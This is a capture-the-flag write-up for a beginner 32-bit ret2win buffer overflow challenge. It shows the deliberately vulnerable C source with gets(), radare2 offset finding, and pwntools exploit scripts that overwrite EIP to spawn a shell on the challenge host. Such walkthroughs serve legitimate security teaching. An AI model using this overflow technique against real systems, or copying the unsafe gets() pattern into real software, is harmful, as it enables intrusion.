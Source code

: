 ```yaml
---
description: Binary Exploitation
---
```


# Baby Buffer Overflow - 32 bit

> _Can you command this program to where it cannot go?_\
> _To get the flag, you must somehow take control of its excecution._\
> _Is it even possible?_
>
> _Author: @aenygma_

{% file src="../../.gitbook/assets/babybufov" %}

{% file src="../../.gitbook/assets/babybufov.c" %}

This is a simple ret2win beginner challenge on a 32 bit binary. This was the source code:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

When I first tried running it, I was hit with an error where I couldn't run the binary or even compile the binary. Turns out, I just had to install `gcc-multilib` and then I was able to compile a binary using the command mentioned in the source code.

After that, I followed [ir0nstone's ](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win)guide on ret2win. So after using a De-Brujin sequence and pasting it into radare2, I was able to obtain an offset to the EIP _(I didn't understand what an offset was doing back then... but now I do...)_, with these commands:

```
$ ragg2 -P 64 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
```

```
[0xf7fa05b0]> dc
Gimme some data!
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
[+] SIGNAL 11 errno=0 addr=0x414b4141 code=1 si_pid=1095450945 ret=0
[0x414b4141]> wopO `dr eip`
28
```

With the offset, I needed to overwrite EIP with the return address of the target function, that I was able to find using radare2:

```
[0xf7f405b0]> afl
...
0x080491a6    1     65 sym.target
...
```

Using all the information found so far, I was able to create a script using pwntools:

```python
from pwn import *

p = process('./babybufov')
#p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491a6)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

After pwning the local binary and being able to run `cat flag.txt`, I tried the remote but was given EOF. But as I realised, the function address I compiled using my device is different from the provided binary. Even though I wasn't able to execute the given binary, I was still able to extract function addresses using an objdump:

```
$ objdump -t babybufov | grep target
080491f5 g     F .text  00000041 target
```

Using this knowledge, the final payload became:

```python
from pwn import *

#p = process('./babybufov')
p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491f5)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

Using this payload, I was able to successfully pwn the remote connection to retrieve the flag!

<div align="center" data-full-width="false"><figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure></div>
